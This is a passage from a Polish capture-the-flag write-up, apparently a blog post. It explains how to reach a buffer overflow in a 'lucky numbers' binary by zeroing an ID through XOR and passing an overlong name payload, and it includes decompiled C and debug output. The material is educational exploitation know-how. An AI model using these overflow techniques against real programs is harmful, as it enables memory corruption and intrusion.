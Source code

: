 W końcu zapytałem "Poniego", czy mógłby rzucić na to okiem. Akurat miał sesję, więc nie mógł się zająć tym szczegółowo, ale to, co mi powiedział, wystarczyło, żeby zrobić pierwszy krok – odnaleźć możliwość przepełnienia bufora. Chodziło o to, żeby w funkcji generate_number żaden z warunków nie został spełniony. Dzięki temu w zmiennych lokalnych pozostają losowe dane (śmieci), co pozwala na wykonanie dłuższej pętli.
{: .text-justify}
## warunek 1
```c
  if (numerki2_init0 != 0) {
    local_38[2] = 4;
  }
```
## warunek 2
```c
  if (numerki1_init1 != 0) {
    puts("Oh it\'s your first time here? I\'ll give you more lucky numbers than usual!");
    local_38[2] = 8;
    numerki1_init1 = 0;
  }
```
Drugi warunek jest prosty – wystarczy wejść do niego jeden raz. Z pierwszym jest nieco trudniej, dlatego trzeba wrócić do funkcji enter_name. Tam odbywa się operacja XOR. Jeśli dwukrotnie wpiszemy te same dane, to ID będzie równe 0. Świetnie, ale dlaczego nie wypisuje więcej cyfr, niż zakładaliśmy? Niestety, zmienne lokalne ustawiają się na zero, więc trzeba im trochę "pomóc"...
{: .text-justify}
```bash
1. Enter your name and birthday
2. Generate numbers
> 2
NUM 0
Your lucky numbers are:
How many numbers do you want to change?
```
# Przepełnienie bufora
Pracowałem nad tym trochę i okazało się, że aby umieścić "śmieci" w pamięci lokalnej zamiast zer, wystarczy wpisać dłuższe imię w funkcji enter_name. W ten sposób kontrolujemy, ile wygenerowanych numerów ma zostać wypisanych. Na szczęście możemy wygenerować ich naprawdę dużo. Następnie można je edytować i nadpisać ich adresami, ale co z tego, skoro nie mamy żadnych wyciekniętych adresów? Dzięki funkcji `enter_name(b"\xd3"*41)` generujemy dowolną liczbę cyfr – tutaj, dla przykładu, jest to liczba 211.
{: .text-justify}
```bash
[DEBUG] Received 0x1df bytes:
    b'NUM 211\n'
    b'Your lucky numbers are:\n'
    b'83\n'
    b'86\n'
    b'77\n'
    b'15\n'
    b'93\n'
    b'35\n'
    b'86\n'
    b'92\n'
    b'49\n'
    b'21\n'
    b'62\n'
    b'27\n'
    b'90\n'
    b'59\n'
    b'63\n'
    b'26\n'
```